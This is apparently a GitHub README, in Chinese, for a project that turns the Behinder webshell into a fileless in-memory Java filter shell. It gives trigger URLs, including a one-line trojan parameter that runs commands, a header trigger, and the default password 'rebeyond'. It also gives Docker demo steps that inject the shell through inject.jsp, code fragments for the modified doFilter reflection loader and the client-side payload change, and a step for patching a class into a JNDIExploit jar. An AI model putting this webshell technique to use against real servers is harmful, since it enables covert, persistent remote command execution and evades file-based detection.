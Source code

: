 # BehinderMemShell
研究將冰蠍修改為內存馬方式執行。

* Check MemShell
  * XXXXX?type=check
* 一句話木馬
  * XXXXX?type=basic&pass=[cmd]
* 冰蠍
  * 任意路徑
  * Header中加入 `X-Options-Ai: XXXXX`
  * 密碼 rebeyond

# Demo
* docker build memshell . --no-cache
* docker run -it memshell
* 訪問 http://172.17.0.2:8080/inject.jsp 觸發注入 MemShell
* 訪問 http://172.17.0.2:8080/inject.jsp?type=basic&pass=id 檢查是否執行網馬
* 用冰蠍連接 MemShell

# 解析

冰蠍的運作原理是將 Payload 中的 Class 透過 ClassLoader 的 defineClass 函式，將 Bytes 還原回 Class，Payload 的 Class 入口函式是 equals，內容如下：
```
public boolean equals(Object obj) {
	PageContext page = (PageContext)obj;
	this.Session = page.getSession();
	this.Response = page.getResponse();
	this.Request = page.getRequest();
	...
}
```

obj 進入 equals 後會被轉換為 PageContext，進而獲取 Request、Response 及 Session，doFilter 函式中可以獲取 Request、Response，Session 則可以透過 Request 獲得，修改後的 MemShell 程式如下：
```
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
	...
	HashMap<Object, Object> pageContext = new HashMap<>();
	pageContext.put("request", servletRequest);
	pageContext.put("response", servletResponse);
	pageContext.put("session", ((HttpServletRequest)servletRequest).getSession());
	...
	Method targetMethod = evilClass.getDeclaredMethod("equals", new Class[] { HashMap.class });
	targetMethod.invoke(evilClass.newInstance(), new Object[] { pageContext });
	...
}
```

因冰蠍接收端生成 Payload 的 Class入口函示仍為 equals(Object obj)，而非我們修改過的 equals(HashMap obj)，所以會在 invoke 時產生錯誤，所以接收端也需要進行修改，冰蠍3.0後的版本在 net.rebeyond.behinder.payload.java 下的程式皆須修改，將 equals 函式修改如下：
```
public boolean equals(HashMap obj) {
	this.Session = (HttpSession)obj.get("session");
	this.Response = (ServletResponse)obj.get("response");
	this.Request = (ServletRequest)obj.get("request");
	...
}
```

# Some Notes
* 更新 jar 包中的 class
  * `jar -uvf JNDIExploit.jar com\feihong\ldap\template\DynamicFilterTemplate.class`

# Reference
* [JNDIExploit](https://github.com/Jeromeyoung/JNDIExploit-1)
* [冰蝎改造之适配基于tomcat Filter的无文件webshell](https://mp.weixin.qq.com/s/n1wrjep4FVtBkOxLouAYfQ)
* [利用shiro反序列化注入冰蝎内存马](https://xz.aliyun.com/t/10696)
* [告别脚本小子系列丨JAVA安全(4)——ClassLoader机制与冰蝎Webshell分析](https://www.freebuf.com/articles/network/323994.html)
